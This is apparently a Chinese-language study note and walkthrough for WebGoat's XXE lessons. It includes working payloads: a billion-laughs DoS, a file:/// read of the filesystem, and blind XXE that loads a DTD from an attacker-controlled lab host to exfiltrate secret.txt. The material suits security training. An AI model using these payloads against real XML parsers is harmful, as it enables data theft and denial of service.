








# XXE（XML External Entities）

## lesson2


### 概念

这节课将教您如何执行XML外部实体攻击，以及如何滥用和保护它。

**目标**

- 用户应该具有基本的XML知识

- 用户将理解XML解析器是如何工作的

- 用户将学习执行XXE攻击和如何保护它

  

[XML实体注入学习](jianshu.com/p/a1ea825aa485)

## lesson3

### 什么是XML实体?

XML都是固定好的

XML实体允许定义将在解析XML文档时由内容替换的标记。一般有三种实体:

- 内部实体
- 外部实体
- 参数实体。

**什么是DTD**：

Document Type Definition 文档类型定义。增加XML 的约束性，XML是没有约束性的。

一个实体必须在文档类型定(Document Type Definition,DTD)中创建，让我们从一个例子开始:

```xml
<?xml version="1.0" standalone="yes" ?>

<!DOCTYPE author [
  <!ELEMENT author (#PCDATA)>  <-- #PCDATA 类型--> 
  <!ENTITY js "Jo Smith">
]>
<author>&js;</author>
```

所以无论你在哪里使用实体&js;解析器将用实体中定义的值替换它。

### 什么是XXE（XML External Entity Injection 即xml外部实体注入）注入?

XML外部实体攻击，是针对解析XML输入的应用程序的一种攻击。当包含对**外部实体的引用的XML输入被弱配置的XML解析器处理时，就会发生这种攻击**。这种攻击可能导致机密数据泄露、拒绝服务、服务器端请求伪造、从解析器所在机器的角度进行端口扫描，以及其他系统影响。

攻击可以包括使用系统标识符中的file:  scheme或相对路径公开本地文件，这些文件可能包含密码或私有用户数据等敏感数据。由于攻击是相对于处理XML文档的应用程序发生的，所以攻击者可以使用这个受信任的应用程序转向其他内部系统，可能通过http(s)请求披露其他内部内容，或者对任何未受保护的内部服务发起CSRF攻击。在某些情况下，可以通过解除对恶意URI的引用来利用容易出现客户端内存损坏问题的XML处理器库，这可能允许在应用程序帐户下执行任意代码。其他攻击可以访问可能不会停止返回数据的本地资源，如果没有释放太多的线程或进程，可能会影响应用程序的可用性。


一般来说，我们可以区分以下类型的XXE攻击:

- Classic:在这种情况下，外部实体包含在局部DTD中
- Blind:响应中不显示输出和错误
- Error :尝试在错误消息中获取资源的内

### 现代其他框架

在现代REST框架中，服务器可能能够接受您作为开发人员没有考虑到的数据格式。因此，这可能导致JSON端点容易受到XXE攻击。


# XXE DOS 攻击

什么是DOS攻击

 使用相同的XXE攻击，我们可以对服务器执行DOS服务攻击。这种攻击的一个例子是: 

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

当XML解析器加载这个文档时，它会看到它包含一个根元素“lolz”，其中包含文本“&lol9;”。然而，“&lol9”是一个被定义的实体，它扩展成一个包含10个“&lol8”字符串的字符串。每个“&lol8”字符串都是一个已定义的实体，它扩展为10个“&lol7”字符串，依此类推。在处理完所有的实体扩展之后，这一小块(< 1 KB) XML实际上将占用近3 gb的内存。

这被称为“十亿笑”，更多信息可以在这里找到:https://en.wikipedia.org/wiki/billion_laughing

## lesson6


### Blind XXE

在某些情况下，您将看不到任何输出，因为尽管您的攻击可能已经奏效，但该字段并未反映在页面的输出中。 或者您尝试读取的资源包含非法XML字符，这会导致解析器失败。 让我们从一个示例开始，在这种情况下，我们引用一个由我们自己的服务器控制的外部DTD。 

作为攻击者，您可以控制WebWolf（可以是您控制下的任何服务器。），例如，您可以使用该服务器通过http://192.168.56.101:9090/landing对其进行ping操作

我们如何使用此端点来验证我们是否可以执行XXE？ 

我们可以再次使用WebWolf托管一个名为Attack.dtd的文件，并使用以下内容创建该文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'http://192.168.56.101:9090/landing'>
```

 现在提交表单，将xml更改为： 

```
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://192.168.56.101:9090/WebWolf/files/attack.dtd">
%remote;
]>
<comment>
  <text>test&ping;</text>
</comment>
```

 现在在WebWolf浏览到“传入请求”，你会看到 

```
{
  "method" : "GET",
  "path" : "/landing",
  "headers" : {
    "request" : {
      "user-agent" : "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0",
    },
  },
  "parameters" : {
    "test" : [ "HelloWorld" ],
  },
  "timeTaken" : "1"
}
```

 所以有了XXE，我们可以ping我们自己的服务器，这意味着XXE注入是可能的。所以使用XXE注入我们基本上可以达到和开始使用curl命令时一样的效果。 


# 解题

## lesson3

在提交表单时，您将在照片中添加一条注释，并尝试执行带有注释字段的XXE注入。试着列出文件系统的根目录。 

hide hits:

使用ZAP/Burp拦截请求并尝试包含自己的DTD , 包括可以如下 : <!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]> 

* 用**file:///**+文件的地址，其实就等价于文件的地址, file:///可以看本地的文件

 不要忘记引用实体  <comment><text>&root;test</text></comment> 



## lesson4


修改content-Type类型json修改为xml






## lesson7

#### 盲目XXE赋值

在前面的页面中，我们向您展示了如何用XXE攻击ping服务器，在这次作业中，尝试制作一个DTD，它将文件secret.txt的内容从WebGoat服务器上传到我们的WebWolf服务器上。您可以使用WebWolf来服务您的DTD。secret.txt位于这个位置的WebGoat服务器上，所以您不需要扫描所有目录和文件:
**OS**									**操作系统的位置**
Linux							/home/webgoat/.webgoat - 8.0 - 8088465 / / XXE / secret.txt
尝试使用WebWolf登录页面上传这个文件，例如:http://192.168.56.101:9090/landing?text=contents_file(注意:这个端点在您的完全控制之下)一旦您获得了文件的内容，将它作为一个新的评论发布到页面上，您将解决这个问题。

**hide hints:**

首先把文件上传到攻击者的网站上， 在这种情况下，您不能将外部实体与内部实体组合在一起。 

 使用参数实体执行攻击，例如:https://www.acunetix.com/blog/articles/xml-external-entixxe-limitations/ 

可以找到一个示例DTD [[webgoat base url]]/ webgoat /xxe/sampledtd，将这个DTD包含在xml注释中 

用于注释时，请注意替换相应的url:  

```xml
<?xml version="1.0"?>
<!DOCTYPE comment [<!ENTITY % remote SYSTEM "
http://192.168.56.101:9090/files/xinxin/test.dtd"> % remote;]>

<comment><text>test&send;</text></comment>
```

 要求借助webwolf来实现XXE盲注，将webgoat的指定目录文件传送到webwolf服务器。 

 指定了要获取的webgoat的文件（docker环境下） 

 `/home/webgoat/.webgoat-8.0.0.M24/XXE/secret.txt `

 XXE外部注入用到的接收服务器（根据实际情况修改ip地址）： 

 `http://192.168.56.101:9090/landing?text=contents_file`  

* 几点说明
  1. 通过bp抓包可以看到，请求是XML的形式，是可以直接修改XML实现注入的
  2. 这里是为了讲解XXE盲注，所以一般都需要借助DTD的参数外部实体：**关于参数实体的参考**:[什么是XML外部实体（XXE）攻击](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)

构建一个dtd文件托管到webwolf上（也可以托管到自己的本地服务器上）






用bp拦截请求，修改请求内容，虽然没有响应成功，但是在webwolf请求的url上能看到secret.txt的内容了




## 小知识点

1. XEE攻击再使用xml中引用实体产生的漏洞，可以利用引用实体而执行一些系统的命令进行：主机探测，端口扫描

2. 用python搭建一个简单的HTTP Server

    Python中自带Web服务器模块，通过它可以建立简单的web服务器。 

   ### 命令

   > ```python
   > python -m WebServerModule [Port]
   > 
   > #exp:
   > python -m http.server 8080
   > ```

   **注意**

   - 默认的端口号为8000
   - 服务器根目录就是运行python的工作目录。

   在python运行环境中启动

    ```bash
   $ python /usr/lib/python2.6/SimpleHTTPServer.py
   Serving HTTP on 0.0.0.0 port 8000 ... 
    ```

   直接在命令行中启动。

   ```bash
   
   908869@CNSHA05NB70810 ~
   $ python
   Python 2.6.5 (r265:79063, Jun 12 2010, 17:07:01)
   [GCC 4.3.4 20090804 (release) 1] on cygwin
   Type "help", "copyright", "credits" or "license" for more information.
   >>> import SimpleHTTPServer
   >>> SimpleHTTPServer.test()
   Serving HTTP on 0.0.0.0 port 8000 ..
   ```

   

   开启后，然后就可以在浏览器中输入

   > ```
   > http://localhost:port/directory
   > ```

   

3. XXE防御清单

   [XML_External_Entity_Prevention_Cheat_Sheet.md]( https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.md )